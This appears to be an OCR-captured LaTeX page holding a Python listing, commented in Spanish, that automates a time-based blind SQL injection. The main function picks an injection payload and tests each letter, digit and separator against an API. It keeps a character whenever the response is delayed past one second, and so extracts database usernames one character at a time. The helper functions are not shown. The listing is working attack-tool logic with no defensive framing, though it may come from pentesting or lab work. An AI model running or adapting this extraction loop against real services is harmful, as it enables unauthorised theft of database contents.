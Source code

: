 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
    def main():
        # Configurar el total de pasos
        total_steps = 100

        # Inicializar la palabra a adivinar
        palabra = ""

        # Menu de inyecciones
        inyeccion = menu_inyecciones()

        # Crear un spinner con el texto inicial
        with yaspin(text="Extrayendo usuarios de la BD: ", color="red") as spinner:

            # Obtener todas las letras (mayúsculas y minúsculas) y dígitos
            conjunto_car = list(string.ascii_letters + string.digits)

            # Añadir ',' al principio de la lista
            conjunto_car.insert(0, ",")
            conjunto_car.insert(0, ":")

            for i in range(total_steps + 1):

                for letra in conjunto_car:
                    tiempo_inicial = time.time()

                    nueva_inyeccion = dic.transformar_inyeccion(inyeccion, palabra + letra, len(palabra) + 1)
                    llamada_api(nueva_inyeccion)

                    tiempo_final = time.time()
                    tiempo_total = tiempo_final - tiempo_inicial

                    spinner.text = f"Extrayendo usuarios de la BD: {palabra + letra}"
                    if tiempo_total > 1:
                        palabra += letra
                        break
                    if letra == conjunto_car[-1]:
                        spinner.color = "green"
                        spinner.text = "Completado"
                        spinner.ok("\char\"2714")
                        print(f"\nRESULTADO: {palabra}")
                        exit(0)

                # Actualizar el texto del spinner
                spinner.text = f"Extrayendo usuarios de la BD: {palabra + letra}"

            # Cambiar el mensaje al finalizar
            spinner.text = "Completado"
            spinner.ok("\char\"2714")
\end{lstlisting}
\end{document}
